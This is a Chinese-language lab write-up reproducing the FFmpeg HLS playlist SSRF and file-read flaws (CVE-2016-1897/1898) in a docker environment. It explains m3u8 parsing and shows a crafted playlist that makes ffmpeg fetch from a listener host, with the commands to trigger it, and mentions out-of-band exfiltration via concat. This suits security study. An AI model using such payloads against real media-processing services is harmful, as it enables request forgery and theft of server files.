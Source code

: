 # FFmpeg 任意文件读取漏洞/SSRF漏洞 CVE-2016-1897/CVE-2016-1898

## 漏洞描述

FFmpeg 是一套可以用来记录、转换数字音频、视频，并能将其转化为流的开源计算机程序。功能非常强大，是每个视频网站必不可少的多媒体文件处理程序。

在 FFMpeg2.X 由于在解析 HTTP Live Streaming 流媒体 m3u8 文件处理不当，可导致 SSRF 漏洞与任意文件读取漏洞。当网站允许用户上传多媒体文件，并使用 FFMpeg 进行处理时会触发该漏洞。

这个漏洞有两个 CVE 编号，分别是 CVE-2016-1897 和 CVE-2016-1898，它们两个的区别在于读取文件的行数，CVE-2016-1897 只能读取文件的第一行。

- [http://blog.neargle.com/SecNewsBak/drops/CVE-2016-1897.8%20-%20FFMpeg%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90.html](http://blog.neargle.com/SecNewsBak/drops/CVE-2016-1897.8 - FFMpeg漏洞分析.html)
- http://habrahabr.ru/company/mailru/blog/274855/

目前该漏洞已在FFMpeg **2.8.5**中修复。

## 影响版本

```
FFmpeg 2.8.x < 2.8.5
FFmpeg 2.7.x < 2.7.5
FFmpeg 2.6.x < 2.6.7
FFmpeg 2.5.x < 2.5.10
```

## HLS协议分析

HLS（HTTP Live Streaming）是Apple公司开发的一种基于HTTP协议的流媒体通信协议，大多数都应用在PC上和Iphone上。它的基本原理是把一个视频流分成很多个很小很小很小的ts流文件，然后通过HTTP下载，每次下载一点点。在一个开始一个新的流媒体会话时，客户端都会先下载一个m3u8（播放列表 Playlist）文件，里面包含了这次HLS会话的所有数据。

有一个主要的m3u8格式Playlist文件，里面可以包含下级的m3u8文件，客户端会再去索引下级的m3u8，继续解析下级的Playlist文件获取最终的TS流文件的http请求地址与时间段。

```
http://pl.youku.com/playlist/m3u8?vid=340270152&type=3gphd&ts=1462714824&keyframe=0&ep=dSaSGE6MUssC5ybeiz8bYiXiIiZdXP0O9h2CgdNnAtQnS%2Bm2&sid=746271452251312590fab&token=3319&ctype=12&ev=1&oip=3395898128
```

这是youku一个视频的m3u8文件，内容如下：

```
#EXTM3U
#EXT-X-TARGETDURATION:6
#EXT-X-VERSION:2
#EXTINF:6,
http://183.60.145.83/69777D60D183E7FE8D0BC25A4/030002010056208D059E4E15049976CD642E01-C8E5-706F-DC6D-375DE0DA5A1E.flv.ts?ts_start=0&ts_end=5.9&ts_seg_no=0&ts_keyframe=1
#EXTINF:0,
http://183.60.145.83/69777D60D183E7FE8D0BC25A4/030002010056208D059E4E15049976CD642E01-C8E5-706F-DC6D-375DE0DA5A1E.flv.ts?ts_start=5.9&ts_end=6.367&ts_seg_no=1&ts_keyframe=1
#EXT-X-ENDLIST
```

解析：

- \#EXTM3U 标签是m3u8的文件头，开头必须要这一行
- \#EXT-X-TARGETDURATION 表示整个媒体的长度 这里是6秒
- \#EXT-X-VERSION:2 该标签可有可无
- \#EXTINF:6, 表示该一段TS流文件的长度
- \#EXT-X-ENDLIST 这个相当于文件结束符

这些是m3u8的最基本的标签，而问题就出在FFMpeg去请求TS流文件的时，由于我们可以伪造一个m3u8文件，FFMpeg不会判断里面的流地址，直接请求。

## 环境搭建

Vulhub搭建环境：

```
docker-compose build
docker-compose up -d
```

访问`http://your-ip:8080/`上传文件。

## 漏洞复现

### SSRF

访问`http://your-ip:8080/`上传文件，文件名为`6215ca35009ea.mp4`。

直接用FFMpeg解析一个多媒体文件，构造test.m3u8文件，文件内容：

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
http://192.168.174.128:9999/1.html
#EXT-X-ENDLIST
```

（#EXT-X-MEDIA-SEQUENCE或#EXT-X-TARGETDURATION必须存在任意一个，前者是定义ts流文件的序号。去掉会报错：无效文件）

将test.m3u8文件拷贝到docker环境`/var/www/html`目录，与上传文件在同一目录下。

```
$ vim test.m3u8
$ docker cp test.m3u8 23f6:/var/www/html/
```

进入docker执行`ffmpeg -i test.m3u8 6215ca35009ea.mp4`（也可把m3u8格式改成其他后缀，ffmpeg会自动识别为HLS流文件）

```
$ docker exec -it 23f6 /bin/bash
$ cd /var/www/html
$ ffmpeg -i test.m3u8 6215ca35009ea.mp4
```

![image-20220223145333273](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202231453426.png)

执行命令时直接发起了http请求，这就造成一个SSRF。监听9999端口，成功收到请求：

![image-20220223145355756](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202231453832.png)

既然可以请求外部数据，因此可以尝试 SSRF 带外，ffmpeg 内部有一个 concat 函数，因此我们可以将内部数据通过 concat 拼接 OOB。

